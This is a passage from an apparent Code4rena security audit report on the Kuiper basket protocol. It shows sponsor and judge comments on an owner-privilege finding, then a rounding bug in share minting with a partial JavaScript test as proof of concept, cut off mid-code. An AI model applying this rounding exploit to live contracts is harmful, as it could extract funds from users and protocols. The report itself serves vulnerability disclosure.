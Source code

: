 #### Recommended Mitigation Steps

Consider adding a timelock delay to all functions affecting protocol execution. Alternatively, `bondForRebalance()` can set state variables for any external calls made to `Factory.sol` (i.e. `factory.auctionMultiplier()` and `factory.auctionDecrement()`), ensuring that `settleAuction()` is called according to these expected results.

**[frank-beard (Kuiper) acknowledged](https://github.com/code-423n4/2021-09-defiprotocol-findings/issues/192#issuecomment-931571215):**
 > it is assumed the owner is trustworthy in this version of the protocol, however we will add mitigations and further decentralization in future updates

**[Alex the Entreprenerd (judge) commented](https://github.com/code-423n4/2021-09-defiprotocol-findings/issues/192#issuecomment-997205975):**
 > Agree with the finding, users are taking "owner privileges" risks while interacting with the protocol.
> The warden has identified a specific grief / DOS that the owner can cause



## [[M-04] User can mint miniscule amount of shares, later withdraw miniscule more than deposited](https://github.com/code-423n4/2021-09-defiprotocol-findings/issues/81)
_Submitted by kenzo_

If a user is minting small amount of shares (like 1 - amount depends on baskets weights), the calculated amount of tokens to pull from the user can be less than 1, and therefore no tokens will be pulled. However the shares would still be minted.
If the user does this a few times, he could then withdraw the total minted shares and end up with more tokens than he started with - although a miniscule amount.

#### Impact

User can end up with more tokens than he started with. However, I didn't find a way for the user to get an amount to make this a feasible attack. He gets dust. However he can still get more than he deserves. If for some reason the basket weights grow in a substantial amount, this could give the user more tokens that he didn't pay for.

#### Proof of Concept

Add the following test to `Basket.test.js`.
The user starts with 5e18 UNI, 1e18 COMP, 1e18 AAVE,
and ends with 5e18+4, 1e18+4, 1e18+4.
```js
it("should give to user more than he deserves", async () => {
    await UNI.connect(owner).mint(ethers.BigNumber.from(UNI_WEIGHT).mul(1000000));
    await COMP.connect(owner).mint(ethers.BigNumber.from(COMP_WEIGHT).mul(1000000));
    await AAVE.connect(owner).mint(ethers.BigNumber.from(AAVE_WEIGHT).mul(1000000));

    await UNI.connect(owner).approve(basket.address, ethers.BigNumber.from(UNI_WEIGHT).mul(1000000));
    await COMP.connect(owner).approve(basket.address, ethers.BigNumber.from(COMP_WEIGHT).mul(1000000));
    await AAVE.connect(owner).approve(basket.address, ethers.BigNumber.from(AAVE_WEIGHT).mul(1000000));

    console.log("User balance before minting:");
    console.log("UNI balance: " + (await UNI.balanceOf(owner.address)).toString());
    console.log("COMP balance: " + (await COMP.balanceOf(owner.address)).toString());
    console.log("AAVE balance: " + (await AAVE.balanceOf(owner.address)).toString());

    
    await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
    await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
    await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
    await basket.connect(owner).mint(ethers.BigNumber.from(1).div(1));
```